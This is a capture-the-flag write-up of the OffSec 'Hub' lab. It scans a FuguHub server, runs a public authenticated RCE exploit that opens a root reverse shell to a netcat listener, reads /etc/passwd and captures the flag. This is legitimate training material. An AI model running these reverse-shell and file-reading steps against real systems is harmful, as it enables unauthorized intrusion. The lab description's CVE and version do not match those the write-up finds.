


# Hub

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a Remote Code Execution (RCE) vulnerability in FuguHub 8.1 (CVE-2023-24078) 
through the file upload feature. By crafting and uploading a malicious .lsp file, learners execute arbitrary 
system commands and gain a reverse shell. This lab highlights file upload abuse, Lua scripting for 
exploitation, and achieving initial access on the target system.
Released: 16 Jun 2023
```

Machine link: [https://portal.offsec.com/machine/hub-50416/overview/details](https://portal.offsec.com/machine/hub-50416/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ export TARGET_IP=192.168.114.25

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-05 07:47 +0100
Nmap scan report for 192.168.114.25
Host is up (0.033s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http       nginx 1.18.0
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0
8082/tcp open  http       Barracuda Embedded Web Server
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Thu, 05 Mar 2026 06:50:00 GMT
| http-methods: 
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-server-header: BarracudaServer.com (Posix)
|_http-title: Home
9999/tcp open  ssl/abyss?
|_ssl-date: 2026-03-05T06:50:01+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Not valid before: 2019-07-16T19:15:09
|_Not valid after:  2074-04-18T19:15:09
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.50 seconds
```

We have four services running and available:

- OpenSSH 8.4p1 on port 22
- nginx 1.18.0 Web server on port 80
- Barracuda Embedded Web Server on port 8082
- An unknown SSL-service on port 9999

### Check the web site on port 80

Browsing manually to port 80 shows a `403 Forbidden` page.

Checking for additional files and directories with `gobuster` we find

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x html,php,txt,pdf -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.114.25
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,pdf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/themes               (Status: 301) [Size: 169] [--> http://192.168.114.25/themes/]
/data                 (Status: 301) [Size: 169] [--> http://192.168.114.25/data/]
/applications         (Status: 301) [Size: 169] [--> http://192.168.114.25/applications/]
/trace                (Status: 403) [Size: 153]
/cache                (Status: 403) [Size: 153]
/readme.txt           (Status: 200) [Size: 18730]
/LICENSE.txt          (Status: 200) [Size: 87]
/disk                 (Status: 301) [Size: 169] [--> http://192.168.114.25/disk/]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

The `readme.txt` file tells us the machine is running [FuguHub](https://fuguhub.com/)

```text
 Changes for 8.0     July 2019
 ---------------------------------
 FuguHub can now use Let's Encrypt and provides the same Let's Encrypt options as the Mako Server.
 https://realtimelogic.com/ba/doc/?url=Mako.html#opacme
 Note that FuguHub's Let's Encrypt options must be set in bd(d).conf

 Changes for 7.9.1   February 2018
 ---------------------------------
* MxTunnel fix for Windows


 Changes for 7.8   January 2018
 ---------------------------------
* Updating FuguHub to latest Barracuda App Server library.
  This release deprecates and removes several APIs such as the EventHandler.

 Changes for 7.6   March 2017
 ---------------------------------
 * Adding SNI support

 Changes for 7.5   October 2016
 ---------------------------------
 * Product name changed from BarracudaDrive to FuguHub

<---snip--->
```

And the contents of `LICENSE.txt` is

```text
See the following page for license information:
http://barracudadrive.com/purchase.lsp
```

### Check the web site on port 8082

Browsing manually to port 8082 shows `Configuration Wizard` for FuguHub



We set the administrator credentials to `admin:admin123` and the email to `admin@bogus.com`.

Logging in we can now administrate the application



Under `Customize Server` we can see that Lua server pages (LSP) is included

```html
<p>FuguHub is powered by: 
<ul>
<li><a href="https://realtimelogic.com/products/barracuda-application-server/" target="_blank">Barracuda Embedded Web Server</a></li>
<li><a href="https://realtimelogic.com/products/sharkssl/" target="_blank">SharkSSL Embedded SSL Stack</a></li>
<li><a href="https://realtimelogic.com/products/lua-server-pages/" target="_blank">Lua Server Pages</a></li>
</ul>
</p>
```

And under `About` we can see the version of FuguHub which is **8.4**.

### Search for available exploits

Next we check for available exploits for this version

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ searchsploit FuguHub 8.4  
Exploits: No Results
Shellcodes: No Results
```

No exploits found there so we turn to the web instead and find [this exploit](https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697).

We update the credentials

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ vi exploit.py    

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ grep -A1 -B2 admin123 exploit.py
# User-defined settings
username = 'admin'
password = 'admin123'
email = 'admin@bogus.com'
```

start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ nc -lvnp 12345                               
listening on [any] 12345 ...

```

and try it out

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ python exploit.py -r $TARGET_IP -rp 8082 -l 192.168.45.179 -p 12345
[*] Checking for admin user...
[+] An admin user exists..
[+] Logging in...
[+] Success! Injecting the reverse shell...
[+] Successfully injected the reverse shell into the About page.
[+] Triggering the reverse shell, check your listener...
```

Back at the netcat listener, we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Hub]
└─$ nc -lvnp 12345                               
listening on [any] 12345 ...
connect to [192.168.45.179] from (UNKNOWN) [192.168.114.25] 37274
id
uid=0(root) gid=0(root) groups=0(root)
```

The reverse shell didn't work satisfactorily so I reverted the machine and went back investigating further

```bash
pwd
/var/www/html
cd /root
pwd
/var/www/html
```

We seem to be running some restricted shell where we can't change directory!?

Root's normal shell is `/bin/bash` but we are running `/bin/sh`.

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
offsec:x:1000:1000:,,,:/home/offsec:/bin/bash
env
USER=root
HOME=/root
LOGNAME=root
JOURNAL_STREAM=8:11558
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
INVOCATION_ID=943f612f56c644a6a270e704362ed009
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/var/www/html
```

### Get the root flag

Regardless, we can read the root flag directly

```bash
ls -l /root
total 8
-rw-r--r-- 1 root root 21 Jun 14  2023 email4.txt
-rw-r--r-- 1 root root 33 Mar  5 03:12 proof.txt
cat /root/proof.txt
0<REDACTED>8
```

For additional information, please see the references below.

## References

- [FuguHub - Homepage](https://fuguhub.com/)
- [FuguHub-8.4-Authenticated-RCE-CVE-2024-27697 - GitHub](https://github.com/SanjinDedic/FuguHub-8.4-Authenticated-RCE-CVE-2024-27697)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Lua - Wikipedia](https://en.wikipedia.org/wiki/Lua)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [Nginx - Wikipedia](https://en.wikipedia.org/wiki/Nginx)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [Transport Layer Security - Wikipedia](https://en.wikipedia.org/wiki/Transport_Layer_Security)
